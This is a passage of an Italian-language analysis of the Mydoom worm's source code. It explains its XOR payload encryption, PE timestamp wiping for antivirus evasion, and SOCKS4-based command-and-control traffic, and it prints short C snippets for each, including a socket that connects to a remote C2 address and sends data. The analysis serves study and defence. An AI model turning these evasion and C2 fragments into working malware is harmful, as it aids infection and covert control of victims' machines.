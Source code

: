 #### **3.3.1 Offuscamento del Codice**

Per evitare di essere facilmente rilevato, Mydoom offusca il proprio codice attraverso due metodi principali:

1. **Crittografia XOR dinamica** (Modulo `crypt1.c`)
2. **Uso di ROT13 per stringhe sensibili** (Modulo `rot13.c`)

Nel file `crypt1.c`, ogni byte del payload viene **criptato dinamicamente** prima di essere scritto su disco:

```c
for (k=0xC7, i=0;;) {
    if ((c = fgetc(f1)) == EOF) break;
    fputc(((unsigned char)c) ^ k, f2);
    k = (k + 3 * (i % 133)) & 0xFF;
    i++;
}
```

Questa tecnica impedisce agli antivirus di identificare il malware basandosi su una semplice firma statica.

#### **3.3.2 Manipolazione dei File PE per Evitare il Rilevamento**

Nel modulo `cleanpe.cpp`, Mydoom rimuove le firme digitali e i **timestamp** dai file eseguibili per evitare che gli antivirus possano rilevarlo analizzando le date di compilazione:

```c
SetFilePointer(h, dwPeOffs+0x08, 0, FILE_BEGIN);
i = 0;
WriteFile(h, &i, 4, &dwWritten, 0);
```

Questo trucco rende difficile stabilire l’età del file e quindi individuare anomalie.

------

### **3.4 Comunicazione con il Server di Comando e Controllo (C2)**

Mydoom si connette a un **server remoto (C2)** per ricevere istruzioni dagli attaccanti. La comunicazione avviene tramite **proxy SOCKS4**, permettendo agli hacker di controllare le macchine infette senza essere tracciati.

```c
CreateThread(0, 0, socks4_server_th, NULL, 0, NULL);
```

Il modulo `xproxy.c` crea una connessione crittografata verso un indirizzo IP remoto, utilizzando il protocollo SOCKS4 per **tunnelizzare** il traffico malevolo:

```c
SOCKET s = socket(AF_INET, SOCK_STREAM, 0);
connect(s, (struct sockaddr *)&c2_addr, sizeof(c2_addr));
send(s, encrypted_data, data_size, 0);
```
